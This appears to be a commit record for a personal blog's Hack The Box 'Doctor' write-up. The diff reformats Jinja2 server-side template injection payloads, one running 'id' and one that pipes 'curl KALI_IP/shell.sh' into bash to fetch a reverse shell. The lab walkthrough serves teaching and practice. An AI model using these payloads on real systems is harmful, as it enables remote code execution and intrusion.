

Before and after one commit to 0xZon/0xZon.github.io, a Jekyll site: the page built from _posts/2022-03-22-HTB-Doctor.md, in a window 1280 px wide and 1400 px high, scrolled down 4725 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2022-03-22-HTB-Doctor.md

````diff
--- a/_posts/2022-03-22-HTB-Doctor.md
+++ b/_posts/2022-03-22-HTB-Doctor.md
@@ -94,7 +94,7 @@ I then went through [This](https://github.com/swisskyrepo/PayloadsAllTheThings/t
 
 ![Doctor](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/doctor/f17b668dc8504c7082c2eda6b6dc920b.png)
 
-Now that we have a valid SSTI vulnerability and have a general idea what engine it is running we can now try and get a reverse shell. In that same repo there is a section titled "Jinja2 - Remote Code Execution" with a test payload `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`. That will try and run the `id` command and return the results. I'll put that into the title field and open up `/archive` and see if it got executed.
+Now that we have a valid SSTI vulnerability and have a general idea what engine it is running we can now try and get a reverse shell. In that same repo there is a section titled "Jinja2 - Remote Code Execution" with a test payload `self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() `. That will try and run the `id` command and return the results. I'll put that into the title field and open up `/archive` and see if it got executed.
 
 ![Doctor](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/doctor/61c32c239f0b455b9e68a2327b4c3b26.png)
 
@@ -128,7 +128,7 @@ python3 -m http.server 80
 Then I will edit the payload to curl bash our reverse shell
 
 ```
-{.\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl KALI_IP/shell.sh |bash').read() }}
+ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl KALI_IP/shell.sh |bash').read()
 ```
 
 Then once we go to `/archive` we will get our shell!
````
